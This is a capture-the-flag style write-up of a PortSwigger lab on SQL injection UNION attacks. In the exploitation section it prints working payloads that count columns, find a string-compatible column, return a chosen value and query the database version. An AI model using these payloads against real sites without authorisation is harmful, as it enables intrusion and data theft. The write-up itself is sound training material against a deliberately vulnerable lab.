 # SQL injection UNION attack, finding a column containing text | Dec 4, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text), you'll learn: SQL injection UNION attack, finding a column containing text! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204015431.png)

- **Objective: Retrieve the string `F46d4g` from the database.**

In the previous lab, we found **a SQL injection vulnerability in the `filter` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204015820.png)

**And we found the number of columns is 3 via this payload: `' ORDER BY 3-- -`.**

Now, we need to output the string `F46d4g`.

**To do so, I'll find which column is accepting string datatype:**
```sql
' UNION SELECT NULL,NULL,'a'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020257.png)

**If the datatype doesn't allow strings, it returns a `500 Internal Server Error` HTTP status.**

**If the datatype accept strings:**
```sql
' UNION SELECT NULL,'SQL Injection',NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020424.png)

**It has no error!**

**After finding the correct column that accepts string datatype, we can use that column to display anything!**
```sql
' UNION SELECT NULL,'F46d4g',NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204020627.png)

**Now, not only we can display what string we want, but also we can enumerate the database much further! Or even exfiltrating data!**

**Finding which version of this database is using:**
```sql
' UNION SELECT NULL,version(),NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-4/images/Pasted%20image%2020221204021005.png)

**We found that it's using `PostgreSQL` for DBMS (Database Management System), and it's version is `12.12`!**

# Conclusion

What we've learned:

1. SQL injection UNION attack, finding a column containing text
